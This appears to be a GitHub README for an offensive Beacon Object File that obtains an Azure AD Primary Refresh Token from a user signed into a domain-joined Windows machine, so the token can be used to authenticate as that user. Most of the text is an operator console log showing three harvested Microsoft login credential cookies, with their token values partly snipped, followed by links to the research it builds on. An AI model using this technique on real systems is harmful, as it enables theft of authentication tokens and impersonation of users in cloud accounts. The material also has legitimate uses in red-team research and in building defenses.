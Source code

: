 # Overview
This BOF obtains an AAD PRT for a user who is signed into Windows with their AAD credentials on a domain-joined machine. With this PRT, the resulting x-ms-RefreshTokenCredential JWT can then be used to authenticate to AAD on behalf of that user, for example with [ROADtools](https://github.com/dirkjanm/ROADtools). This proof-of-concept, originally inspired by [Abusing Azure AD SSO with the Primary Refresh Token](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/), has been modified to pre-generate the nonce and retrieve a PRT all in one, rather than relying on roadrecon to retrieve it and then using that nonce to request a PRT.

```
[17/12/2024 23:20:57] (finished) operator > exec_bof
[*] Running BOF with name "request_aad_prt.x64.o"

[+] Starting AAD PRT request process
[+] Response size: 39412
[+] Starting PRT request with nonce
[+] Found 3 cookies:
Cookie 1:
  Name: x-ms-DeviceCredential
  Data: eyJhbGciOiJS<snip>4uxiG-A; path=/; domain=login.microsoftonline.com; secure; httponly
  Flags: 0x2040
  P3PHeader: CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
Cookie 2:
  Name: x-ms-RefreshTokenCredential
  Data: eyJrZGZf<snip>gms-IlY; path=/; domain=login.microsoftonline.com; secure; httponly
  Flags: 0x2040
  P3PHeader: CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
Cookie 3:
  Name: x-ms-DeviceCredential1
  Data: eyJ4NWMiO<snip>3ycSw; path=/; domain=login.microsoftonline.com; secure; httponly
  Flags: 0x2040
  P3PHeader: CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
[+] AAD PRT request completed
```

# References
* https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/
* https://github.com/dirkjanm/ROADtoken
* https://github.com/leechristensen/RequestAADRefreshToken
* https://github.com/trustedsec/CS-Situational-Awareness-BOF